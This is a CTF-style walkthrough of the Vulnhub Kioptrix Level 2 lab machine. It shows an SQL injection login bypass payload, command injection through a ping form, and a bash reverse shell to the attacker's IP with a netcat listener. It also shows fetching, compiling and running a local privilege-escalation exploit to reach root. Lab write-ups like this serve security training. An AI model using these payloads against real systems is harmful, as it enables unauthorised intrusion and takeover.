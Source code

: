 ```yaml
---
title: "Kioptrix 2 Writeup"
date: 2020-04-11T10:50:53+02:00
draft: false
Tags: [
    "Writeups",
    "Vulnhub",
]
---
```

Download kioptrix 2 VM [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

Services:
* Apache 
* MySQL
* Openssh
* RPC
* CUPS 

### 0. Getting machine's ip:
![](/images/kioptrix2/1.png)

Also ``# netdiscover -r 192.168.1.0/24`` works fine.

###  1. Enumeration:
* Zenmap:
![](/images/kioptrix2/2.png)

So first things first, let's check the web server running .. 

### 2. Web Server:
* Hitting vm's ip 192.168.1.7 shows us this login form: 
![](/images/kioptrix2/3.png)
![](/images/kioptrix2/4.png)

it's an admin login , maybe it's vulnerable to sql injection let's try to bypass it ..

* note: i also made directory enumeration but found nothing useful ..

Trying with this payload:
  * admin" or 1=1 #

For other payloads too [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
![](/images/kioptrix2/5.png)
And boom it worked fine, and we're in as web admin ..
![](/images/kioptrix2/6.png)

Why this happened? Maybe the form query is:

``SELECT * from users where username="$_REQUEST["username"]" and password="$_REQUEST["password"]"``

And using the payload evaluated it to:

``SELECT * from users where username="admin" or 1=1 # //ignored the rest of code``

### 3. Admin panel:
* it pings machines let's try 127.0.0.1 and see what happens: 
![](/images/kioptrix2/7.png)
we got this response:
```text
127.0.0.1 PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.026 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.041 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.051 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.026/0.039/0.051/0.011 ms, pipe 2
```

* So what if we could apply our own commands in this bash as RCE(Remote code execution):
![](/images/kioptrix2/8.png)
And it worked and ``whoami``command gave us output: apache! 

### 4. Exploitation:
* let's try to make reverse shell! 

note: you can get reverse shell payloads in lots of languages [here](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

What  i used :
  * bash -i >& /dev/tcp/ATTACKER's-IP/PORT 0>&1

`` 127.0.0.1; bash -i >& /dev/tcp/192.168.1.6/1337 0>&1 ``

Netcat listener on our host:
* start nc first before the sending the reverse shell command.

  * `` nc -nlvp 1337 `` 

![we got shell as apache.. Awesome!!](/images/kioptrix2/9.png)

### 5. Privilege Escalation:
* we want to get root from this apache user.. 
  * let's get some information about this system:
```bash
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ uname -mrs
Linux 2.6.9-55.EL i686
bash-3.00$ cat /etc/redhat-release
CentOS release 4.5 (Final)
```
* searching for exploits for this release, found this:
  * https://www.exploit-db.com/exploits/9542

let's download it to the machine and run it:
```yml
bash-3.00$ cd /tmp
bash-3.00$ wget https://www.exploit-db.com/exploits/9542
--20:57:56--  https://www.exploit-db.com/exploits/9542
           => `9542'
Resolving www.exploit-db.com... 192.124.249.8
Connecting to www.exploit-db.com|192.124.249.8|:443... connected.
OpenSSL: error:1407742E:SSL routines:SSL23_GET_SERVER_HELLO:tlsv1 alert protocol version
Unable to establish SSL connection.
bash-3.00$ wget https://www.exploit-db.com/download/9542 --no-check-certificate
--21:00:02--  https://www.exploit-db.com/download/9542
           => `9542'
Resolving www.exploit-db.com... 192.124.249.8
Connecting to www.exploit-db.com|192.124.249.8|:443... connected.
OpenSSL: error:1407742E:SSL routines:SSL23_GET_SERVER_HELLO:tlsv1 alert protocol version
**Unable to establish SSL connection.**
```
I tried a lot but couldn't download it directly on the machine, so i downloaded it on my host and put it on localhost server.
```java
mv 9542.c /var/www/html
sudo systemctl start apache2 >> to start apache server
```
![](/images/kioptrix2/10.png)
![](/images/kioptrix2/11.png)

### Finishing and getting root:
```yml
bash-3.00$ wget 192.168.1.6/9542.c
--21:39:04--  http://192.168.1.6/9542.c
           => `9542.c'
bash-3.00$ gcc 9542.c 
bash-3.00$ ls
9542.c
a.out
bash-3.00$ ./a.out
sh: no job control in this shell
sh-3.00# whoami
root

```
Awesome we got root access :D ... 

note: i roamed the system there is nothing usefull or flag or anything :)

hope you enjoyed...